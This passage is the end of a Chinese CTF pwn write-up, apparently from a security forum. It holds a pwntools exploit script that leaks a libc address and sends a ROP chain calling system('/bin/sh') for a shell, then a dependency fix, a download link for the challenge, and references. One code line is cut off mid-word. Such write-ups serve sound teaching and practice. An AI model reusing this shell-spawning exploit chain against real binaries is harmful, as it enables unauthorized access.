 ```
    ru("data length:")
    sl(str(len(payload)))
    ru("input perception obstacle data:\n")
    s(payload)
 
    leak_func_addr = u64(r(6).ljust(8,b"\x00"))
    leak_func_
    system_addr, binsh_addr = duchao_pwn_script.libcsearch_sys_sh(leak_func_name, leak_func_addr,path=libcfile)
    libc_base_addr = system_addr-libc.sym["system"]
    print("libc_base_addr is",hex(libc_base_addr))
    print("system_addr is",hex(system_addr))
    print("binsh_addr is",hex(binsh_addr))
 
 
    ru("\n")
    payload = p64(ret)+p64(ret)+p64(pop_rdi_ret) + p64(binsh_addr) + p64(system_addr)
    s(payload)
    itr()

```

5. 一些问题
-------

个别情况下会报缺少`libprotobuf.so.32`的错误，使用`everything` 搜索替换即可。

题目太大，链接为`https://pan.baidu.com/s/1MELSvAPX8z0W-dxKQaUKFw?pwd=nemi 提取码: nemi`

参考文献

1.[C 语言实现面向对象三大特性 : 封装、继承、多态](https://blog.csdn.net/onlyshi/article/details/81672279)

2.[GNU 重命名规则](https://github.com/gchatelet/gcc_cpp_mangling_documentation)

3. [带你走进 PHP session 反序列化漏洞](https://xz.aliyun.com/t/6640)

4.[`protobuf`库](https://github.com/protocolbuffers/protobuf)

[[培训] 内核驱动高级班，冲击 BAT 一流互联网大厂工作，每周日 13:00-18:00 直播授课](https://www.kanxue.com/book-section_list-174.htm)

[#Reverse](forum-37-1-111.htm) [#Web](forum-37-1-112.htm) [#Pwn](forum-37-1-113.htm)